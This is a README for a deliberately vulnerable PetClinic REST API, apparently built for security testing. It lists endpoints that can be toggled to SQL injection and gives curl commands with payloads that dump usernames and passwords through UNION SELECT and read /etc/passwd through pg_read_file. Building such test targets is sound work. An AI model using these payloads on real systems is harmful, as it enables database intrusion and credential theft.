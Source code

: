 # Endpoints vulnerable for SQLi

This project has the following endpoints:
```shell
GET: /oops
POST: /owners
GET: /owners
GET: /owners/{ownerId}
PUT: /owners/{ownerId}
DELETE: /owners/{ownerId}
POST: /owners/{ownerId}/pets
GET: /owners/{ownerId}/pets/{petId}
PUT: /owners/{ownerId}/pets/{petId}
POST: /owners/{ownerId}/pets/{petId}/visits
GET: /pettypes
POST: /pettypes
GET: /pettypes/{petTypeId}
PUT: /pettypes/{petTypeId}
DELETE: /pettypes/{petTypeId}
GET: /pets
POST: /pets
GET: /pets/{petId}
PUT: /pets/{petId}
DELETE: /pets/{petId}
GET: /visits
POST: /visits
GET: /visits/{visitId}
PUT: /visits/{visitId}
DELETE: /visits/{visitId}
GET: /specialties
POST: /specialties
GET: /specialties/{specialtyId}
PUT: /specialties/{specialtyId}
DELETE: /specialties/{specialtyId}
GET: /vets
POST: /vets
GET: /vets/{vetId}
PUT: /vets/{vetId}
DELETE: /vets/{vetId}
POST: /users
```

Out of these, some are made vulnerable to SQL injection:
```HTTP
# other table data (UNION)
GET: /vets/{vetId}
# subvert logic
GET: /specialties/{specialtyId} 
# (hidden) inserting data
POST: /vets

# Deeper insert
POST: /owners
```

To enable a vulnerability, set `vuln{x}` to `true` in `application.properties`.

## Endpoints with shallow depth
These vulnerable endpoints don't have deep code execution and all detect
multiple rows as SQLi, so payloads work internally, but don't always
return data in the HTTP response.

### Vulnerability 1: `GET /vets/{vetId}`
This vulnerability allows for UNION attacks, allowing an attacker to retrieve
data from other tables.

- operation: `getVet`
- payload: `0' UNION SELECT NULL,username,password FROM users--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966' \
  $'http://localhost:9966/petclinic/api/vets/0\'%20UNION%20SELECT%20NULL,username,password%20FROM%20users--'
```

### Vulnerability 2: `GET /specialties/{specialtyId}`
This vulnerability allows for subverting logic, allowing an attacker to retrieve
hidden data. 

- operation: `getSpecialty`
- payload: `4'--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966'
  $'http://localhost:9966/petclinic/api/specialties/4\'--'
```
 
### Vulnerability 3: `POST /vets`
This vulnerability allows for inserting data, allowing an attacker to create
a new user with, e.g., leaked data. 

- operation: `addVet`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--",
  "lastName": "",
  "specialties": [
    {
      "name": "hacker"
    }
  ]
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)) ) RETURNING id--\",\x0a  \"lastName\": \"\",\x0a  \"specialties\": [\x0a    {\x0a      \"name\": \"hacker\"\x0a    }\x0a  ]\x0a}' \
    $'http://localhost:9966/petclinic/api/vets'
```

## Endpoints with deeper execution paths
These vulnerable endpoints deeper code path executions.

[//]: # (all detect multiple rows as SQLi, so payloads work internally, but don't always return data in the HTTP response.)

### Vulnerability 4: `POST /owners`
This vulnerability is the same as [Vulnerability 3](#vulnerability-3-post-vets), but with a deeper code paths.
This is achieved by splitting `vulnSave` into `vulnStoreNewOwner` and `vulnUpdateExistingOwner`.

- operation: `addOwner`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)), 'addr', 'city', '42') RETURNING id--",
  "lastName": "",
  "address": "",
  "city": "",
  "telephone": ""
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0d\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)), \'addr\', \'city\', \'42\') RETURNING id--\",\x0d\x0a  \"lastName\": \"\",\x0d\x0a  \"address\": \"\",\x0d\x0a  \"city\": \"\",\x0d\x0a  \"telephone\": \"\"\x0d\x0a}\x0d\x0a' \
    $'http://localhost:9966/petclinic/api/owners'
```

### Vulnerability 5: `PUT /owners/{ownerId}`
This vulnerability leverages the same injection as [Vulnerability 4](#vulnerability-4-post-owners), but with deeper code execution paths.
I.e., a faulty ownerId will cause shallower execution.
